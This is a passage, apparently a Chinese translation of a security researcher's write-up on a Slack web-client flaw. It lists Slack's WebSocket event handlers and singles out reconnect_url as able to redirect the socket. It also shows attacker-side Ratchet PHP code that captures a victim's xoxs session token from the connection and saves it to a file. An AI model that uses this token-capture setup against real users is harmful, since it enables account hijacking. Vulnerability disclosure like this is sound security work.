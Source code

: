 ```
accounts_changed(), apps_changed(imsg), bot_added(imsg), bot_changed(imsg), bot_removed(imsg), channel_archive(imsg), channel_converted_to_shared(imsg), channel_created(imsg), channel_deleted(imsg), channel_history_changed(imsg), channel_history_changed_worker(imsg), channel_joined(imsg), channel_left(imsg), channel_marked(imsg), channel_rename(imsg), channel_unarchive(imsg), commands_changed(imsg), dnd_override(imsg), dnd_updated(imsg), dnd_updated_user(imsg), email_domain_changed(imsg), emoji_changed(imsg), enterprise_rename(imsg), error(imsg), file_change(imsg), file_comment_added(imsg), file_comment_deleted(imsg), file_comment_edited(imsg), file_created(imsg), file_deleted(imsg), file_private(imsg), file_public(imsg), file_shared(imsg), file_unshared(imsg), goodbye(imsg), group_archive(imsg), group_close(imsg), group_converted_to_shared(imsg), group_deleted(imsg), group_history_changed(imsg), group_history_changed_worker(imsg), group_joined(imsg), group_left(imsg), group_marked(imsg), group_open(imsg), group_rename(imsg), group_unarchive(imsg), hello(imsg), im_close(imsg), im_created(imsg), im_history_changed(imsg), im_history_changed_worker(imsg), im_marked(imsg), im_open(imsg), issue_change(imsg), manual_presence_change(imsg), member_joined_channel(imsg), member_joined_group(imsg), member_left_channel(imsg), member_left_group(imsg), message(imsg), message_changed(imsg), message_changed_worker(imsg), message_deleted(imsg), message_deleted_worker(imsg), message_replied(imsg), mpim_close(imsg), mpim_history_changed(imsg), mpim_history_changed_worker(imsg), mpim_joined(imsg), mpim_marked(imsg), mpim_open(imsg), msgReceived(imsg), msgReceivedFromParentWindow(imsg), onStartxu(), pin_added(imsg), pin_removed(imsg), pref_change(imsg), presence_change(imsg), reaction_added(imsg), reaction_removed(imsg), reconnect_url(imsg), sh_room_join(imsg), sh_room_leave(imsg), sh_room_update(imsg), slack_broadcast(imsg), star_added(imsg), star_removed(imsg), status_change(imsg), subteam_created(imsg), subteam_deleted(imsg), subteam_self_added(imsg), subteam_self_removed(imsg), subteam_updated(imsg), subtype__channel_history_changed(imsg), subtype__channel_join(imsg), subtype__channel_leave(imsg), subtype__channel_purpose(imsg), subtype__channel_topic(imsg), subtype__file_share(imsg), subtype__group_history_changed(imsg), subtype__group_join(imsg), subtype__group_leave(imsg), subtype__group_purpose(imsg), subtype__group_topic(imsg), subtype__im_history_changed(imsg), subtype__message_changed(imsg), subtype__message_deleted(imsg), subtype__message_replied(imsg), subtype__mpim_history_changed(imsg), subtype__mpim_join(imsg), subtype__sh_room_created(imsg), subtype__sh_room_shared(imsg), team_domain_change(imsg), team_icon_change(imsg), team_join(imsg), team_plan_change(imsg), team_pref_change(imsg), team_profile_change(imsg), team_profile_delete(imsg), team_profile_reorder(imsg), team_rename(imsg), teams_joined_shared_channel(imsg), teams_left_shared_channel(imsg), thread_marked(imsg), thread_subscribed(imsg), thread_unsubscribed(imsg), update_thread_state(imsg), user_added_to_team(imsg), user_can_manage_shared_channels(imsg), user_change(imsg), user_read_only_channels(imsg), user_removed_from_team(imsg), user_typing(imsg)
```

在所有事件中，reconnect_url这个事件吸引了我的注意，不仅因为它非常常见，而且它还存在一个明显的问题：

```
if (!TS.ms.fast_reconnects_enabled)
    return;
var url = imsg.url;
TS.ms.setReconnectUrl(url)
```

上面这段代码会对Slack所使用的WebSocket-URL进行转换。WebSocket的初始化是通过一个GET事件完成的，这个过程需要用到大量参数，其中有一个参数名叫“token”，而且还是一个xoxs-token，只要我拿到这个token，我就可以访问你的Slack账号了。

[![](https://p1.ssl.qhimg.com/t01a249d481999dec59.png)](https://p1.ssl.qhimg.com/t01a249d481999dec59.png)

所以，我自己建立了一个本地WebSocket，我这里选择的是[Ratchet](http://socketo.me/)，因为它设置起来比较方便。我其实并不需要一个完整的socket，我只需要它能够正常响应init请求即可。所以我修改了onOpen请求，具体如下所示：

```
public function onOpen(ConnectionInterface $conn) `{`
    // Store the new connection to send messages to later
    $this-&gt;clients-&gt;attach($conn);
    $token = $conn-&gt;WebSocket-&gt;request-&gt;getQuery()['token'];
    echo sprintf("WE GOT TOKEN: %sn", $token);
    file_put_contents('token.txt', $token);
    echo "New connection! (`{`$conn-&gt;resourceId`}`)n";
`}`
```
